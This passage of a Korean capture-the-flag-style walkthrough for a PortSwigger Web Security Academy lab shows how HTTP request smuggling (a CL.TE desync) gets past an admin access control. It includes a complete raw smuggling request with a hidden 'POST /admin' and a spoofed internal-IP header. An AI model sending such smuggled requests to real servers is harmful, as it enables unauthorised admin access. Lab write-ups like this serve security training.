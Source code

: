 3. `X-lPAEPh-Ip` 헤더를 붙여서 관리자 페이지에 접근을 시도해본다. `GET /admin`을 시도해보면 `Duplicate header names are not allowed` 메세지가 회신된다. 프론트엔드 서버도 `X-lPAEPh-Ip` 헤더를 붙여주기 때문인 것으로 보인다. 

![관리자 페이지 접근 시도](/images/burp-academy-hrs-8-2.png)

4. 스머글링용 요청에 추가 헤더를 붙여서 관리자 페이지에 접근해본다. 

```http
POST / HTTP/1.1
Host: 0a4900e9041e0da08174de6f00a800bb.web-security-academy.net
Cookie: session=qbuTFVIaGF3ujGihNv1axrMWw35g2NRX
Content-Length: 129
Origin: https://0a1200ea03e7d7128291cc690021000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Referer: https://0a1200ea03e7d7128291cc690021000c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
X-nDvror-Ip: 127.0.0.1

search=
```

요청을 두 번 보내면 두번째 요청의 응답에서 관리자 페이지에 접근 성공한 것을 알 수 있다. 
